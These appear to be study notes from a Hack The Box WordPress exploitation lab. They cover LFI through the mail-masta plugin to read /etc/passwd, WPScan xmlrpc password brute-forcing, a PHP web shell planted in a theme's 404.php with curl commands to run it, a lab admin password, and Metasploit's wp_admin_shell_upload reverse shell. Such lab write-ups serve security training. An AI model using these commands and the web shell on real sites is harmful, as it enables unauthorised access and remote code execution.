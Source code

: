 # 🧊 Exploitation

## Vulnerable Plugin

Let's say we identified via a WPScan an outdated theme or plugin known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). \
We can verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or through cURL ->

```shell-session
curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

### User Bruteforce

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`.

```shell-session
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

_**Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.**_

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /home/htb-ac-1032889/Downloads/rockyou.txt --url http://94.237.53.113:47407
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## RCE via the Theme Editor

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Once we're logged in, we click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

And now we should be able to use a webshell using the `404.php?cmd=id`.

And we can check this with the following cURL command:&#x20;

```shell-session
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

_**Use the credentials for the admin user \[admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.**_

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=id
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
curl -X GET "http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/wp-user/flag.txt"
```

## Attacking with Metasploit

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:

```shell-session
msf5 > search wp_admin
```

Once we set all of the options for this module and we hit run, it will launch a reverse shell
